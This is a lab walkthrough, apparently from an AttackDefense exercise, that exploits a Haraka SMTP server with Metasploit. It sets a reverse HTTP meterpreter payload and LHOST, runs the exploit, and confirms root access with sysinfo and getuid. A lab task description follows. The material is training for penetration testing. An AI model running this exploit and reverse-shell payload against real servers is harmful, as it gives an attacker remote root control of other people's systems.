 Set the email_to option.

```
set email_to root@attackdefense.test
```

Set the payload that we want to executed on the target system once the exploit is run.

And instead of using a staged payload, we are going to be utilizing a non-staged payload.

```
set payload linux/x64/meterpreter_reverse_http
show options
```

And we then need to set the LHOST option, which is going to be our IP.

And the reason we changed the server port (SRVPORT) to 9898 is because this payload will require the port 8080.

Set the LHOST IP address to the ethernet 1 interface IP.

```
set LHOST eth1
run
```

This is a non-staged payload, or a stateless payload.

The kernel version is 5.4.0.

```
meterpreter > sysinfo
```

Get our current privileges by typing in `getuid`, and that will enumerate our current permissions on the target system.

We get the user id of 0. we have root access which means that we have the highest privileges available on the Linux target which consequently means we do not need to elevate our privileges or perform privilege escalation.

```
meterpreter > getuid
```

That is how to exploit an SMTP server. And in this case, we have explored the process of exploiting the Haraka SMTP server.

# Vulnerable SMTP Server
## Overview
The target server as described below is running a vulnerable SMTP service. Your task is to fingerprint the application using command line tools available on the Kali terminal and then exploit the application using the appropriate Metasploit module. Get a shell on the target!

Instructions: 

* This lab is dedicated to you! No other users are on this network :)
* Once you start the lab, you will have access to a root terminal of a Kali instance
* Your Kali has an interface with IP address 192.X.Y.Z. Run "ip addr" to know the values of X and Y.
* The target server should be located at the IP address 192.X.Y.3.
* Do not attack the gateway located at IP address 192.X.Y.1
* postgresql is not running by default so Metasploit may give you an error about this when starting
